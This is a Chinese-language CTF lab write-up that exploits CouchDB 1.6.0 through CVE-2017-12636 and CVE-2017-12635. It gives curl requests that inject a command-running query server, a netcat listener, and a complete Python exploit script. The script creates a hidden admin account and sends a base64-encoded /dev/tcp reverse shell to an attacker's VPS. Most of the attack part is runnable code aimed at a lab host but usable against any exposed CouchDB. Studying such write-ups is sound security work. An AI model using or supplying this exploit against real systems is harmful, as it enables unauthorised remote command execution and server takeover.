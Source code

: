 ### 漏洞概述
CVE-2017-12636是由于数据库自身设计原因，管理员身份可以通过HTTP（S）方式，配置数据库。在某些配置中，可设置可执行文件的路径，在数据库运行范围内执行。结合CVE-2017-12635可实现远程代码执行。
### writeup
访问靶场地址

![](http://picture.mzxh.xyz/20200515111605.png)

可以看到couchdb版本是1.6.0

访问https://靶场地址/_utils/

![](http://picture.mzxh.xyz/20200515111756.png)

提示所有人均为管理员

点击Fix this 创立管理员

![](http://picture.mzxh.xyz/20200515111844.png)

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://admin:admin@ctf.mzxh.xyz:58512/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://admin:admin@ctf.mzxh.xyz:58512/vultest'
curl -X PUT 'http://admin:admin@ctf.mzxh.xyz:58512/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://admin:admin@ctf.mzxh.xyz:58512/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

>`ctf.mzxh.xyz:58512`为你的靶场访问地址
> 第一个请求是添加一个名字为cmd的query_servers，`admin:admin`为你刚刚创建的管理员账号：密码；`id >/tmp/success`为你要执行的命令
> 第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。
> 第四个请求就是在这个Database里进行查询，因为我将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行。

![](http://picture.mzxh.xyz/20200515112457.png)

可以看到生成了success文件中包含了id返回信息

![](http://picture.mzxh.xyz/20200515112524.png)

### 反弹shell

注意：直接反弹shell不成功。反弹Shell的命令，在经过数据库处理时被截断，不能直接执行，

所以这里直接用exp打

攻击机开启一个端口监听

```
nc -lvp 7777
```
![](http://picture.mzxh.xyz/20200515190126.png)

运行exp脚本（需要修改下面几处）

> target = 你靶场的地址
> command = rb"""sh -i >& /dev/tcp/你公网vps地址/端口 0>&1"""
> version = 1(版本号1.x版本选1 2.x版本选2)

```
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://ctf.mzxh.xyz:47787'
command = rb"""sh -i >& /dev/tcp/***.***.***.***/7777 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

![](http://picture.mzxh.xyz/20200515113359.png)
